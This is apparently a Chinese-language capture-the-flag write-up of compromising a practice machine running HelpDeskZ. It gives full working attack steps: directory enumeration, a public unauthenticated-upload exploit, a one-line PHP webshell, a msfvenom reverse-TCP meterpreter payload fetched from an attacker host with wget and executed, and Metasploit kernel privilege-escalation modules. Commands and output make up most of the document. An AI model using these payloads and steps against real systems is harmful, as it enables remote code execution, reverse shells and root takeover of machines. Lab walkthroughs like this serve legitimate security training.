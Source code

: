 ```yaml
---
title: Help(File upload)
categories:
- training
tags:
- training
---
```

10.10.10.121
```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 80

访问10.10.10.121:80，Apache/2.4.18 (Ubuntu) ，默认配置页面

```
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

http://10.10.10.121/support/
页面上的登陆表单，有csrf参数，不允许爆破弱口令

换一个字典
apache-user-enum-1.0.txt
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/apache-user-enum-1.0.txt
```
#### 目录扫描
- gobuster -u http://10.10.10.121:80/support/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/uploads (Status: 301)
/css (Status: 301)
/includes (Status: 301)
存在上传目录，302跳转到apache默认配置页面
```
- gobuster -u http://10.10.10.121/support/uploads -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/articles (Status: 301)
/tickets (Status: 301)
```
- gobuster -u http://10.10.10.121/support/uploads/tickets -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#### exp尝试
- searchsploit help deskZ
```
HelpDeskZ <= v1.0.2 - Unauthenticated Shell Upload
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

searchsploit -m exploits/php/webapps/40300.py
python 40300.py  http://10.10.10.121:80/support/ ports.txt
失败
---
python 40300.py http://10.10.10.121/support/uploads/tickets whale.php

连接错误
requests.exceptions.ConnectionError: HTTPConnectionPool(host='10.10.10.121', port=80): Max retries exceeded with url: /support/uploads/tickets/1cd2ed348346b00c48d3f78579d6431d.php (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7f0def11a290>: Failed to establish a new connection: [Errno 110] Connection timed out',))
---
searchsploit -m exploits/php/webapps/41200.py
需要一个可以登陆的口令
```
- 尝试文件上传
http://10.10.10.121/support/?v=submit_ticket&action=displayForm

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/5.PNG)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/6.PNG)

- 尝试github的exp
```
wget https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit

python exploit

python exploit http://10.10.10.121/support/uploads/tickets whale.php

[https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit](https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit)
```
观察exp，是通过时间推算出上传的php脚本的名称，然后组合baseurl，查看状态码是否是200。

如果是200，说明上传成功。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/2.PNG)

首先上传一个php脚本，上传地址参考上述步骤“尝试文件上传”,内容为`<?php echo(system($_GET["cmd"])); ?>`

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/1.PNG)

成功上传webshell

## 3000 port
```
10.10.10.121:3000
{"message":"Hi Shiv, To get access please find the credentials with given query"}

X-Powered-By: Express

searchsploit Express
searchsploit Node.js

nikto -h http://10.10.10.121:3000 > nikto.txt

gobuster -u http://10.10.10.121:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
结果，没有发现任何存在目录
```
## 提权
#### 信息搜集
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/3.PNG)
```
cmd=uname+-a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
64位linux，ubuntu

pwd
/var/www/html/support/uploads/tickets

cmd=cat+/home/help/user.txt
```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/4.PNG)

获得help用户的webshell，如果不会这一步，参考https://whale3070.github.io/tag/#/command%20execution

---
查看内核版本后，searchsploit linux 4.4.0，根据结果，值得尝试msf suggester。

生成64位msf回连载荷，上传
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=6678 -f elf -o payload.elf
python -m SimpleHTTPServer 8001
```
攻击机webshell:
```
wget http://10.10.14.2:8001/payload.elf -P /tmp
chmod +x /tmp/payload.elf
```
本地监听：
```
msfconsole
handler -H 10.10.14.2 -P 6678 -p linux/x64/meterpreter_reverse_tcp
```
攻击机webshell:	`./payload.elf`

本地监听，成功回连msf payload:
```
use post/multi/recon/local_exploit_suggester
set SESSION 2

[+] 10.10.10.121 - exploit/linux/local/bpf_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.


use exploit/linux/local/bpf_priv_esc
set SESSION 2
set LHOST 10.10.14.2
set LPORT 6679
show options
run
失败

---
use exploit/linux/local/bpf_sign_extension_priv_esc
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 10.10.14.2
set LPORT 6679
set SESSION 2
show options
run
```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/7.PNG)

